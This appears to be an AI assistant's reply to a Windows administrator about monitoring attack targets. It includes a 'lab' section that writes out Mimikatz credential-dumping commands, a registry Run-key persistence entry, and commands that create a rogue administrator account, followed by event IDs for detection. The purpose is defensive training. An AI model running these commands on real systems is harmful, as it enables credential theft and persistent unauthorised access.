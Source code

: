 Great! Here are some key areas in Windows that attackers often target and that you, as an administrator, should monitor:

### **1. Common Attack Vectors and Files to Monitor**
#### **A. Credential Theft**
- **Files to Watch:**
  - `C:\Windows\System32\config\SAM` (Windows Security Accounts Manager)
  - `C:\Windows\System32\config\SYSTEM`
  - `C:\Windows\NTDS\ntds.dit` (Only on Domain Controllers)
- **Attack Techniques:**
  - Mimikatz (steals credentials from LSASS)
  - Dumping NTDS.dit for domain credentials

#### **B. Persistence Mechanisms**
- **Files and Registry Keys to Watch:**
  - `C:\Windows\System32\Tasks\` (Scheduled Tasks)
  - Registry Key: `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
  - `C:\Windows\System32\drivers\etc\hosts` (DNS Hijacking)
- **Attack Techniques:**
  - Adding malicious startup entries
  - Creating rogue scheduled tasks

#### **C. Lateral Movement**
- **Files and Logs to Watch:**
  - `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
  - `C:\Windows\System32\wscript.exe` (Windows Scripting Host)
  - `C:\Windows\System32\psexec.exe` (Sysinternals Tool)
- **Attack Techniques:**
  - Pass-the-Hash using compromised NTLM hashes
  - RDP brute force attacks (monitor event ID 4625)
  
---

### **2. Hands-on Attack Demonstration (Lab)**
#### **A. Extracting Password Hashes (Mimikatz)**
1. **Download and run Mimikatz (if allowed in your lab)**
   ```powershell
   mimikatz.exe
   ```
2. **Dump LSASS credentials**
   ```powershell
   sekurlsa::logonpasswords
   ```
3. **Check for SAM database dump**
   ```powershell
   lsadump::sam
   ```

#### **B. Registry Persistence Attack**
1. **Add a malicious entry in Windows Registry**
   ```powershell
   reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v MaliciousEntry /t REG_SZ /d "C:\malware.exe"
   ```
2. **Verify it is added**
   ```powershell
   reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
   ```

#### **C. Creating a Rogue Admin User**
1. **Create a new admin user**
   ```powershell
   net user hacker Passw0rd! /add
   net localgroup Administrators hacker /add
   ```
2. **Check if the account was successfully added**
   ```powershell
   net user hacker
   ```

---

### **3. How to Detect and Defend**
#### **Using Windows Event Logs**
- **Credential Theft Detection:**
  - Monitor **Event ID 4624** (Logon Success) and **Event ID 4625** (Logon Failure)
- **Privilege Escalation Attempts:**
  - **Event ID 4672** (Admin privilege assigned)
  - **Event ID 4648** (Explicit Credential Use)
- **Registry Modification:**
  - **Event ID 4657** (Registry Value Change)

Would you like a specific attack demonstration that you can try in your lab?